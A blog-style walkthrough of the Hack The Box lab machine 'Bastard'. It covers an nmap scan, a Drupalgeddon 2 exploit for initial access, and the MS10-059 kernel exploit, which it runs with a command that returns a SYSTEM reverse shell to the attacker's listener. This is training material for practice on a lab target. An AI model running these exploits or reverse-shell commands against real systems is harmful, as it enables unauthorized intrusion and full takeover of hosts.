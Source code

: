 ```yaml
---
title: "HTB - Bastard without MetaSploit"
date: 2021-03-03
draft: true
categories: ["hacking", "write-ups"]
tags: [HTB]
featuredImage: "/images/2021/03/Bastard_Logo.png"
---
```

## Intro
Let's up the game a little bit and attack a medium rated box for the very first time!

## Target
[HTB - Bastard](URL)

## Recon
A quick look to the box info reveals :

* Windows box ;
* Misc : php, web, patch management.

I assume this will be about an outdated PHP application running under Windows.

## Enum
We run our classic `nmap` scan :

```text
sudo nmap -T4 -A -p- -oA scan $target_ip
```
```text
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-03 12:23 CET
Nmap scan report for bastard.htb (10.129.90.188)
Host is up (0.024s latency).
Not shown: 65532 filtered ports
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to Bastard | Bastard
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: phone|general purpose|specialized
Running (JUST GUESSING): Microsoft Windows Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (91%), Microsoft Windows Vista SP2 (91%), Microsoft Windows Vista SP2, Windows 7 SP1, or Windows Server 2008 (90%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   23.34 ms 10.10.14.1
2   23.46 ms bastard.htb (10.129.90.188)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 157.23 seconds
```

We also run our team of usual's suspects tools, such as `nikto` and `gobuster` and manually `browsing` with `Burp` enabled.

We'll notice a `Drupal 7.54` installation which is vulnerable to [Drupalgeddon 2](https://github.com/dreadlocked/Drupalgeddon2) :

![Bastard Drupal Version](/images/2021/03/Bastard_Drupal_Version.png)

## Exploitation

### Getting Initial Shell
Manually exploiting the vuln with the ruby script found during our recon will give us an initial shell as `authority\iusr` :

![Bastard Initial Shell](/images/2021/03/Bastard_Initial_Shell.png)

It is now time for internal recon, before we try to escalate our privs!

### PrivEsc
Since our shell is quite limited, we'll have to find several to get what we want. For example, running winpeas and similar tools won't work. It will time out before we can get the results, and I couldn't find a way to write the output to a logfile.

After searching, I found [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). It is a `python2 script` that works on my attacking machine from the output of the `systeminfo` command :

![Bastard Potential Vulns](/images/2021/03/Bastard_Potential_Vulns.png)

So going down the list I found one kernel exploit that seemed particularly interesting : [MS10-059](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059).

Once uploaded, I tried to run it like the usage said but it returned a weird error, about not being able to connect to cmd.exe, but still getting a `SYSTEM` token.

So I just re-ran it with the following command while using a listener on my attacking machine :

```text
MS10-059.exe "$attacking_ip" "1234"
```
NB : I probably got mixed up, and `Churraskito.exe` requires the arguments shown in the usage, and `MS10-059.exe` uses the one I provided on my second try.

Hopefully, it worked and gave me `SYSTEM` :

![Bastard Root Shell](/images/2021/03/Bastard_Root_Shell.png)

Harvest flag and call it a day :

![Bastard Root Flag](/images/2021/03/Bastard_Root_Flag.png)


## Outro
This has been my first even "medium" rated box and I am very happy I did it on my own. I found this initial shell pretty easy, but then got quite confused when I couldn't work with `winpeas` and other executables. This is when I started researching for other way to enum the box and found the `python exploit suggester`. From, here it was some googling and mor trial and error, but it worked!